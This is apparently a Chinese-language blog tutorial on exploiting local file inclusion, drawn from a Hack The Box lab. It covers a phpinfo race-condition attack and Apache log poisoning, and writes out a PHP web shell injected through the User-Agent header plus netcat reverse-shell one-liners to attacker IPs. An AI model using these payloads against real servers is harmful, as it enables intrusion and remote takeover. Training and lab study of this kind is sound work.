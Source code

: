 ```yaml
---
title: LFI漏洞利用
date: 2021/12/12
tags: [渗透测试,漏洞利用]
categories: 渗透测试
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_18.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_18.jpg
---
```




# LFI 漏洞的利用

---

[参考链接1](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5)

[参考链接2](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

- LFI(本地文件包含漏洞)，这篇文章将介绍有关该漏洞的一些利用

###  1、phpinfo 漏洞信息利用

- 将LFI漏洞转变为远程代码执行（RCE）漏洞的竞争条件，服务器端需要满足以下条件：
    - LFI漏洞
    - 任何显示PHPInfo()配置输出的脚本
- [**脚本下载地址**](https://github.com/mxrmiss/Automation-script/blob/03406f1e18b9cbdcf832941b3bad224d99a0f55e/phpinfo.py)

- 得到脚本后，我们需要修改脚本中的攻击载荷, 使用命令 `locate php-reverse` 定位可用的php载荷位置

```
/usr/share/laudanum/php/php-reverse-shell.php
```

- 将载荷中的内容复制到脚本中, 替换图片中横线部分

![1](https://herozql.oss-cn-beijing.aliyuncs.com/p/o/1.png)

- 修改载荷中的IP地址和端口，然后将脚本的 LFIREQ 参数更改为我们在burpsuit中看到的参数。如：

```
LFIREQ="""GET /browse.php?file=%s
```

- 我们还必须将所有“=>”更改为“=>”，以便脚本正确编译。

- 然后使用nc接收反弹的shell
- 运行脚本 `python3 phpinfo.py xxxip xxxport` (受害者ip和端口)

### 2、日志中毒

- 原理
    - 日志中毒背后的想法是将一些 php 放入日志中，然后将它们加载到 php 将执行的位置。如果我们查看访问日志，我们会看到每次访问该站点时，都会有一个条目，其中包含所访问的 url 和浏览器访问的用户代理字符串。
    - 最简单的情况是更改我们的用户代理字符串，使其包含 php，然后将该日志文件包含在我们的 LFI 中。我们也可以毒化 url 字段，但访问类似`http://10.10.10.84/browse.php?not_an_arg=[php code]`. 只要我们能把我们的php写入日志，我们就成功了。

- 我们需要定位到日志文件的位置，这里以apache为例，通过google我们可以知道配置文件一般在 `/usr/local/etc/apache24/httpd.conf` 目录，查看配置文件，我们可以找到日志文件位置：

```
ErrorLog "/var/log/httpd-error.log"
CustomLog "/var/log/httpd-access.log"
```

- 打开burpsuit，获取日志文件页面页面并对其修改
- 由于用户代理(User-Agent)这一部分是由我们用户决定的，所以我们可以将这一部分换成我们的漏洞代码

```
<?php system($_GET['c']); ?>
```

- 通过修改参数c的值，我们可以在网页得到不同的结果

- 于是将反弹shell传值给c，第一次使用代码`nc -e /bin/bash 10.10.14.27 4444` ,结果只是连接上了靶机，但是未能反弹shell，这就说明了靶机的nc版本不支持-e 参数，于是使用nc的另一种反弹shell方式，代码：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

- 查看本地监听器，会发现有结果了